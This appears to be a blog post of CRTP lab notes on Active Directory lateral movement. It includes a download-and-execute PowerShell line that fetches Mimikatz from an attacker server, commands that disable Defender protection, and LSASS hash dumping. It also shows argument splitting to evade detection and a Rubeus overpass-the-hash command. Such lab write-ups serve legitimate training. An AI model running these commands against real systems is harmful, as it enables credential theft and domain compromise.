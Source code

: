 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 2)
date: 2024-07-01 00:00:00 +0800
categories: [Cert, CRTP]
tags: [cert,active directory]     ## TAG names should always be lowercase
render_with_liquid: false
---
```


#### Extract Credentials from LSASS (Invoke Mimikatz)

Once we have remote admin session on the remote machine, we will extract credentials from LSASS. Bear in mind , **to avoid LSASS unless you have nothing to do.**

Check if we can run commands on dcorp-mgmt using PowerShell remoting

```bash
Invoke-Command -ScriptBlock {$env:username;$env:computername}    -ComputerName dcorp-mgmt
```

Now, let’s use Invoke-Mimi to dump hashes on dcorp-mgmt to grab hashes of the domain admin. This script is to downloads and executes the Invoke-Mimi.ps1 that is hosted in my web server.

```bash
 iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
```

Then, we need to bypass the AMSI using our [script](https://beardenx.github.io/posts/Bypass-AMSI-Like-a-King/). OR

we can use the AMSI bypass we have been using or the built-in Set-MpPrefernce as well because we have administrative access on dcorp-mgmt


```jsx
---
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local

Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess

Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess
---
```

###### Using OverPass-the-Hash (Rubeus)

Finally, use OverPass-the-Hash to use svcadmin's credentials.

Run the below commands from an elevated shell on the student VM to use Rubeus.

```jsx
---
ArgSplit.bat

##Run the above commands in the same command prompt session
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
---
```


```jsx
---
Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
---
```

Now, we get our TGT Ticket. Try accessing the domain controller from the new process!
Note that we did not need to have direct access to dcorp-mgmt from student machine 100.X.

```jsx
---
winrs -r:dcorp-dc cmd /c set username USERNAME=svcadmin
---
```

## 7. Domain Admin Escalation using Derivative Local Admin (Find-PSRemotingLocalAdminAccess.ps1)


```jsx
---
 Find-PSRemotingLocalAdminAccess
---
```

Bypassing Applocker
